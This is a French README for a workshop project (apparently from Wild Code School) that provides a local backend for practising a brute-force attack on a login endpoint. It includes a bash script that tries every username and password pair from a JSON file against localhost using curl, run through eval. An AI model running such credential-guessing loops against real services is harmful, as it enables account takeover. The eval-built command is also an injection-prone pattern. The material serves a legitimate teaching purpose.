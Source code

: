 <h1 align="center">Welcome to backend for brute force 👋</h1>
<p>
  <img alt="Version" src="https://img.shields.io/badge/version-1.0.0-blue.svg?cacheSeconds=2592000" />
  <a href="#" target="_blank">
    <img alt="License: ISC" src="https://img.shields.io/badge/License-ISC-yellow.svg" />
  </a>
  <a href="https://twitter.com/Gorski_anthony" target="_blank">
    <img alt="Twitter: Gorski_anthony" src="https://img.shields.io/twitter/follow/Gorski_anthony.svg?style=social" />
  </a>
</p>

> Backend pour tester le hack d'authentification pour un atelier de la wild code school

Lien du repo github pour tester le hack : [GorskiAnthony/WCS_BruteForce](https://github.com/GorskiAnthony/WCS_BruteForce)

## Install

```sh
npm install
```

Ne pas oublier de créer un fichier .env à la racine du projet avec les variables suivantes :

```sh
API_URL=http://localhost:3000/api
```

## Usage

```sh
# Charge les comptes dans le fichier combinations.json
node loadAccount.js
```

```sh
# Lancement du serveur de hack
npm run hack
```

## cURL

Voilà le script cURL pour tester le hack :

```sh
curl -X POST http://localhost:3000/api/login -H "Content-Type: application/json" -d '{"username":"admin", "password":"password"}'
```

Le truc, c'est qu'il faut tester toutes les combinaisons possibles. Pour cela, il faut utiliser un script qui va tester toutes les combinaisons possibles.

## Script

```sh
#!/bin/bash

url="http://localhost:3000/api/login"
credentials_file="combinations.json"

usernames=$(jq -r '.usernames[]' "$credentials_file")
passwords=$(jq -r '.passwords[]' "$credentials_file")

# Générer les commandes curl pour chaque combinaison
for username in $usernames; do
  for password in $passwords; do
    command="curl -X POST $url -H \"Content-Type: application/json\" -d '{\"username\":\"$username\", \"password\":\"$password\"}'"
    echo "Commande: $command"
    response=$(eval $command)
    echo "Réponse: $response"
    echo "---"
  done
done
```

Je l'ai mis dans un fichier brute-force.sh, mais il faut le rendre exécutable pour pouvoir l'utiliser.

Pour pouvoir utiliser le script, il faut le rendre exécutable :

```sh
chmod +x brute-force.sh
```

Et ensuite, il suffit de lancer le script :

```sh
./brute-force.sh
```

## Author

👤 **Anthony Gorski**

-   Twitter: [@Gorski_Anthony](https://twitter.com/Gorski_Anthony)
-   GitHub: [@GorskiAnthony](https://github.com/GorskiAnthony)

## Show your support

Give a ⭐️ if this project helped you!

---

👋 Qui suis-je ?
Je suis **Anthony Gorski**, développeur web et formateur à la [Wild Code School](https://www.wildcodeschool.com/fr-FR).
